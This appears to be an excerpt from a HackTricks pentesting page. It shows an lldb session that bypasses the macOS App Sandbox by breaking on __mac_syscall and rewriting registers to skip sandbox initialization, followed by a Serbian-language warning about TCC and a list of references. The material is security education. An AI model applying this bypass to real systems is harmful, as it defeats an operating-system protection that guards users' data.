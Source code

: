 ```bash
# Lets put a breakpoint in __mac_syscall when x1 is 0 (this is the code to enable the sandbox)
(lldb) breakpoint set --name __mac_syscall --condition '($x1 == 0)'
(lldb) c

# The 1 arg is the name of the policy, in this case "Sandbox"
(lldb) memory read -f s $x0
0x19300eb22: "Sandbox"

#
# BYPASS
#

# Due to the previous bp, the process will be stopped in:
Process 2517 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = breakpoint 1.1
frame #0: 0x0000000187659900 libsystem_kernel.dylib`__mac_syscall
libsystem_kernel.dylib`:
->  0x187659900 <+0>:  mov    x16, #0x17d
0x187659904 <+4>:  svc    #0x80
0x187659908 <+8>:  b.lo   0x187659928               ; <+40>
0x18765990c <+12>: pacibsp

# To bypass jump to the b.lo address modifying some registers first
(lldb) breakpoint delete 1 # Remove bp
(lldb) register write $pc 0x187659928 #b.lo address
(lldb) register write $x0 0x00
(lldb) register write $x1 0x00
(lldb) register write $x16 0x17d
(lldb) c
Process 2517 resuming
Sandbox Bypassed!
Process 2517 exited with status = 0 (0x00000000)
```
> [!WARNING] > **Čak i kada je Sandbox zaobiđen, TCC** će pitati korisnika da li želi da dozvoli procesu da čita datoteke sa radne površine

## References

- [http://newosxbook.com/files/HITSB.pdf](http://newosxbook.com/files/HITSB.pdf)
- [https://saagarjha.com/blog/2020/05/20/mac-app-store-sandbox-escape/](https://saagarjha.com/blog/2020/05/20/mac-app-store-sandbox-escape/)
- [https://www.youtube.com/watch?v=mG715HcDgO8](https://www.youtube.com/watch?v=mG715HcDgO8)

{{#include ../../../../../banners/hacktricks-training.md}}
